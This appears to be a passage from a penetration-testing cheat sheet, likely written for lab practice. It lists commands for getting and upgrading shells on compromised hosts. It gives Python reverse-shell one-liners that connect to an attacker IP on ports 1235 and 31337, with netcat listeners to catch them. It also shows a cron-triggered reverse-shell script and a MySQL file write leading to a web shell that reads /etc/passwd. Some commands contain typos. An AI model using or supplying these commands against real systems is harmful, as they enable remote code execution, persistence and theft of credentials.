 ### or
```
python3 -c 'import pty;pyt.spaw("/bin/bash")'
export TERM=xterm
CRTL+S
stty raw -echo;fg

```
- [Upgrade to Fully Interactive TTY](/Notes/TTY.md)

### TTY Shell
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
echo 'os.system('/bin/bash')'
/bin/sh -i
/bin/bash -i
perl -e 'exec "/bin/sh";'
```

- `export TERM=linux` or `export TERM=xterm`

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- __`nc -lnvp 1235`__

- __This script, once triggered by the cron, connects back to my attacker machine using a reverse shell on port 31337.__
```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.157\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.py
```
- __`nc -lnvp 31337`__
- 

# [8. SMB](/smb.md)



# 9. Mysql <a name="mysql"></a>
- `mysql -h 10.0.1.22 -u root`
    - select 'This is a test' into outfile '/tmp/test' from mysql.user limit 1;
      - > if executed, confirms the ability to write files on the web server.
        > ![image](https://github.com/Chittu13/web/blob/main/Image/mysql.png)
    - Now navigate to that path where you write the shell.php

        - `<url>/shell.php?cmd=id`
        - `<url>/shell.php?cmd=cat /etc/passwd`
